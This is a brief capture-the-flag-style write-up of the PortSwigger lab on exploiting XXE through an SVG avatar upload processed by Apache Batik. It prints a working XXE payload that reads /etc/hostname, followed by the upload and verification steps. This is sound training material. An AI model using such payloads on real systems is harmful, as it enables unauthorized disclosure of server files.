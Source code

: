 ```yaml
---
title: 'Lab: Exploiting XXE via image file upload'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: Exploiting XXE via image file upload
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
* Goal: To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

## Recon
In this lab, we can upload an exploited file which contained malicious xml data. Then we can fetch some sensitive information.

## Exp - Upload Exploited File as Avatar
1. Create an exploit text file
We can create a text file contained the payload below
The exploited payload in `.svg` files:
```xml!
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns ="http://www.w3.org/2000/svg" xmlns:xlink ="http://www.w3.org/1999/xlink" version="1.1"><text fontsize="16" x="0" y="16">&xxe;</text></svg>
```
2. Transfer to `svg` file and upload it
After transfering to `.svg` file, we can choose arbitrary post and leave a comment below
![](https://i.imgur.com/gQt4HCF.png)

3. Check your avatar
Then you get back to post page and verified your avatar photo should contain a string which is your flag(sensitive data) that you must submit.
:::spoiler Success Screenshot
![](https://i.imgur.com/W3Jg2Xs.png)
:::
